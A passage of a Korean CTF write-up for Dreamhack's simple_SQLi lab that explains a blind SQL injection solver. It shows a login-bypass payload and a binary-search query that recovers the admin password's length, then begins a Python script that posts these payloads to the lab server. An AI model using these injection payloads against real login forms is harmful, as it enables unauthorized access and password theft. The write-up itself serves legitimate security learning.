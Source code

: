```
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

과정을 한번 살펴보면, 먼저 `_find_password_length`에서 `query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"`를 통해 쿼리문을 생성한다.

참고로, `f-string`으로 문자열을 선언할 때 `{user}` 처럼 `{}`을 한번만 감싸주면 선언과 동시에 `user` 값이 존재하여 대입이 이루어져야 하고, `{{val}}` 처럼 `{{}}`로 두번 감싸주면 중괄호 그대로 `{val}`이 문자열로 저장된다. (`{}`가 `'`나 `"`와 비슷하다고 생각하면 됨)

`val`을 `{val}`로 출력되도록 하는 이유는, 나중에 이진 탐색 함수에서 `format()` 함수를 통해 `val`의 값을 계속 바꿔줄 것이기 때문이다.

다시 쿼리문에 대해서 설명하면, 해당 쿼리문은 `userpassword`의 길이(`LENGTH`)가 `val`보다 작은 경우 `True`를 리턴하는 쿼리문이다. 예를 들어 `user`가 `"admin"`이고, `val`이 `10`일 때 아래와 같은 쿼리문이 실행된다.

- `((SELECT LENGTH(userpassword) WHERE userid="admin") < 10)`

이 쿼리문을 `_sqli_lt_binsearch` 함수에 인자로 전달하면, 해당 함수에서 `val` 값을 `mid` 값의 변화에 따라 바꿔가며 이진 탐색을 하게 된다.

이진 탐색 함수에서 `_sqli` 함수를 호출하여 `resp = self._login(f"\" or {query}-- ", "hi")`를 통해 앞에서 쓴 쿼리문을 `query`에 입력하여 전달해주면, 전달해준 `query`가 `True`인 경우, `or True`가 되어 로그인이 가능하게 된다.

참고로, `_sqli` 함수는 `-> requests.Response`에서도 볼 수 있듯이, `_login` 함수에서 `requests.post`를 호출하여 리턴되는 값인 `resp`(`requests.Response`)를 리턴한다.\
(`Response` 객체에는 `text`, `cookies`, `header`, `status_code` 등 여러가지 필드가 존재한다.)

따라서, 쿼리문이 `True`를 리턴하는 경우 `"hello ~~"가 출력되기 때문에, `if "hello" in self._sqli(query).text:` 조건으로 해당 함수의 응답문에서 `"hello"` 라는 텍스트가 존재하면 로그인에 성공한 것으로 판단한다.

이 경우 우리가 `< val` 조건을 썼기 때문에, `high = mid`로 업데이트 하여 `val`의 값을 줄여보며 이진 탐색을 진행하여 비밀번호 길이를 찾게 된다.

코드의 실행 결과는 아래와 같고, `app.py` 소스코드에서도 16바이트 랜덤한 문자열을 만든 후 `hex`로 출력했기 때문에, 비밀번호의 길이가 총 32자리(32바이트)임을 알 수 있다.

<img width="730" alt="image" src="https://github.com/user-attachments/assets/4574a70f-c3a3-4319-b485-7c25b0fe89ac">

### 2. 비밀번호 찾기

이제 비밀번호의 길이를 찾았기 때문에, 구한 비밀번호의 길이까지 한 글자씩 비밀번호를 알아내는 코드를 작성해보자. `Binary Search`를 활용한 자동화 스크립트 코드는 아래와 같다.

```
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""

    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")

    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {"userid": userid, "userpassword": userpassword}
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f'" or {query}-- ', "hi")
        return resp

    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
```